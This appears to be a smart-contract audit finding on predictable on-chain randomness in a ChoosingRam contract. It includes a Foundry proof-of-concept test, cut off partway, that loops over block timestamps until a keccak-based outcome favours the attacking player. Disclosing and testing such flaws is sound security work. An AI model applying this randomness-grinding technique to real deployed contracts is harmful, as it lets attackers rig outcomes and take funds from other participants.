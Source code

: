 ## Description:

The `increaseValuesOfParticipants()` function in the `ChoosingRam` contract utilizes a logic to generate random numbers. However, this randomness logic can be predicted by users, allowing an attacker to repeatedly call the function until achieving a desired outcome. This predictability undermines the security and fairness of the function.

## Impact:

Predictable randomness enables attackers to manipulate the outcome by repeatedly invoking the function until the desired random number is generated. This compromises the randomness logic, leading to potential exploitation and unfair advantages within the system.

## Proof of Concept:

```solidity
function test_increaseValuesOfParticipantsIsNotRandom() public {
    Dussehra dussehra;
    RamNFT ramNFT;
    ChoosingRam choosingRam;
    address organiser = makeAddr("organiser");
    address player1 = makeAddr("player1");
    address player2 = makeAddr("player2");

    vm.startPrank(organiser);
    ramNFT = new RamNFT();
    choosingRam = new ChoosingRam(address(ramNFT));
    dussehra = new Dussehra(1 ether, address(choosingRam), address(ramNFT));
    ramNFT.setChoosingRamContract(address(choosingRam));
    vm.stopPrank();

    vm.startPrank(player1);
    vm.deal(player1, 1 ether);
    dussehra.enterPeopleWhoLikeRam{value: 1 ether}();
    vm.stopPrank();

    // the second player will predict the outcomes and
    // will become the Ram
	    vm.startPrank(player2);
	    vm.deal(player2, 1 ether);
	    dussehra.enterPeopleWhoLikeRam{value: 1 ether}();
	    uint256 winnings = 0;
	    uint256 time = 1;
	    // this loop will be executed until the second player
	    // wins 5 times
	    while (winnings < 5) {
	        vm.warp(++time);
	        if (
	            uint256(
	                keccak256(
	                    abi.encodePacked(
	                        block.timestamp,
	                        block.prevrandao,
	                        player2
	                    )
	                )
	            ) %
	                2 ==
	            0
	        ) {
	            // the following block will be executed only if the user
	            // is gonna win the challenge
	            ++winnings;
```